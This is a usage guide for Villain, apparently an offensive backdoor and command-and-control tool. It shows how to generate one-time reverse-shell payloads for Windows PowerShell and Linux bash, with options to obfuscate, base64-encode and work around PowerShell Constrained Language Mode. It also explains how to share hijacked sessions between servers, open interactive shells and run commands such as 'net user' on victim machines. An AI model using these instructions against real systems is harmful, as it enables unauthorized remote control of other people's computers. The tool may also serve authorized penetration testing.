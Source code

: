 # Usage Guide
:warning: Villain was explicitly developed and tested on **kali linux**.  
:warning: This guide is a work in progress currently describing key features. Check out Villain's introduction on YouTube for more info.

## Table of contents
1. [Generate Backdoor Payloads](Generate-Backdoor-Payloads)
2. [Connect With Sibling Server](Connect-With-Sibling-Server)
3. [The shell Command](The-shell-Command)
4. [The exec Command](The-exec-Command)

## Generate Backdoor Payloads
Use the "generate" prompt command to generate backdoor payloads for Windows or Linux machines. 

```
generate os=<OS Type> lhost=<IP or INTERFACE> [ exec_outfile=<REMOTE PATH> domain=<DOMAIN>] [ obfuscate encode constraint_mode ]
```
Each generated payload is going to work only once. An already used payload cannot be reused to establish a session.
The backdoors are designed to start as new background processes. Currently supported types of backdoors:  
 - for Windows: Powershell 
 - for Linux: bash

#### Available arguments for the "generate" prompt command:
| Argument          | Required | Supported OS | Requires Input Val | Description |
|:-----------------:|:-------:|:-------------:|:------------------:|------------------------|
| os                | True    | All           | Yes                | The OS type to generate backdoor for [windows/linux]. |
| lhost             | True    | N/A           | Yes                | Your local IP or Interface to connect back. |
| domain            | Depends | N/A           | Yes                | If you have provided trusted cert and priv_key files to start Villain with SSL, you can provide domain instead of lhost. |
| obfuscate         | False   | Windows       | No                 | Auto-obfuscate the generated payload. This aims to assist you, not always do the job for you. |
| encode            | False   | Windows       | No                 | Base64 encode the generated payload. |
| exec_outfile      | False   | Windows       | Yes                | Provide a file path on the victim to write & execute commands from (instead of using IEX) |
| constraint_mode   | False   | Windows       | No                 | Make the generated payload work on PowerShell Constraint Language Mode. By using this option you sacrifice a bit of the decoding clarity of your shell. |

#### Examples:
```
# For Windows:
Villain > generate os=windows lhost=eth0 obfuscate
Villain > generate os=windows lhost=192.168.12.36 exec_outfile="C:\Users\\\$env:USERNAME\.local\hack.ps1" encode

# For Linux:
Villain > generate os=linux lhost=192.168.12.62
```

## Connect With Sibling Server
Use the `connect` prompt command to connect and share your backdoor sessions with another machine running Villain. 
```
connect <IP> <CORE SERVER PORT>
```
By default, the Core server port is `65001` (you can change that with `-p` when starting Villain).

## The shell Command
Use the `shell` prompt command to start an interactive HoaxShell against a session. 
```
shell <SESSION ID or ALIAS>
```
Press Ctrl + C or type `exit` to return to the main Villain prompt.

## The exec Command
Use the `exec` prompt command to execute a **quoted command** or **script from your file system** against a session. 
```
exec </path/to/local/file> <SESSION ID or ALIAS>
exec 'net user;Get-Date' <SESSION ID or ALIAS>
```
